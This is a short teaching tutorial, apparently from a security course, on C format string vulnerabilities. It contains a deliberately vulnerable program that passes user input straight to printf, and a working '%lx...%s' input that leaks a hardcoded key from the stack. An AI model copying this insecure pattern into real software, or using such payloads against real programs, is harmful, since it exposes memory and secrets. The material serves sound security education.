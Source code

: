 # Format String Attacks

Given the following C code. 
```C
void print(char *s_ptr)
{
   int i = 0xaabbccdd;
 
   printf(s_ptr);
}
 
 
int main(int argc, char **argv)
{
   char *key = "X8GX-6S5V-MOI0-PL5F";
   
   print(argv[1]);
   return 0;
}
```

We can see that the `printf()` function uses an insecure string 
as the **first parameter**, which is usually the **format string**.

Thus, we can insert formatter like `%s` or `%x` to read content 
from the current stack.

_Example_: Using a regular string
```
$ ./fmt_string hello
hello
```

_Example_: Testing the application for a format string vulnerability
```
$ ./fmt_string "hello %lx"
hello 7fffdc602088
```
The fact that we can use `%lx` to read data means that there is a string format vulnerability
in the given application.


_Example_: Attacking the format string vulnerability
```
$ ./fmt_string "hello %lx %lx %lx %lx %lx %lx %lx %lx %lx %lx %lx %lx %lx %lx %s"
hello 7fff4cf21348 7fff4cf21360 7f142e217718 0 7f142e2461b0 f0b5ff 7fff4cf23099 7fff4cf21237 aabbccdda9d0c1d5 7fff4cf21250 55a0a9d0c189 7fff4cf21348 2a9d0c050 7fff4cf21340 X8GX-6S5V-MOI0-PL5F
```

Form the last example we can see that sensitive information can be read from the stack
by using the right amount of formatters in a format string attack.

Note that all **local variables** and some **parameters** will be stored on the stack!

## References
* Daniel Regalado, Shon Harris, Allen Harper, Chris Eagle, Jonathan Ness, Branko Spasojevic, Ryan Linn, Stephen Sims. **Gray Hat Hacking**. McGraw Hill Education, 4th Edition, 2015

*Egon Teiniker, 2020 - 2022, GPL v3.0*